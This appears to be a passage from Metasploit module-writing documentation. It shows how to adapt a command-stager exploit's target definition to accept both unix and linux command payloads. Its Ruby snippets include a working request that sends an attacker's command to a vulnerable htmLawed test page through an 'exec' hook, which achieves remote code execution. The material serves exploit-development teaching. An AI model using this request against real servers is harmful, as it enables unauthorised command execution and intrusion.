 In this case, I've modified the code provided in the command stager documentation to support both linux and unix command
payloads.  All I did was give an array value for the `Platform` value and change the`Type` to something more generic:
``` ruby
'Targets'   =>
  [
    [ 'Linux Command',
      {
        'Arch' => [ ARCH_CMD ],
        'Platform' => [ 'unix', 'linux' ],
        'Type' => :nix_cmd
      }
    ]
  ]
```

For the `execute_command` method, nothing changes:

```ruby
def execute_command(cmd, _opts = {})
populate_values if @sid.nil? || @token.nil?
uri = datastore['URIPATH'] + '/vendor/htmlawed/htmlawed/htmLawedTest.php'

    send_request_cgi({
      'method' => 'POST',
      'uri' => normalize_uri(uri),
      'cookie' => 'sid=' + @sid,
      'ctype' => 'application/x-www-form-urlencoded',
      'encode_params' => true,
      'vars_post' => {
        'token' => @token,
        'text' => cmd,
        'hhook' => 'exec',
        'sid' => @sid
      }
    })
end
```

The only change in the exploit method is the use of the more generic `Type` value in the case statement.  Nothing else
needs to change.

```ruby
  def exploit
    print_status("Executing #{target.name} for #{datastore['PAYLOAD']}")
    case target['Type']
    when :nix_cmd
      execute_command(payload.encoded)
    when :linux_dropper
      execute_cmdstager
    end
  end
```
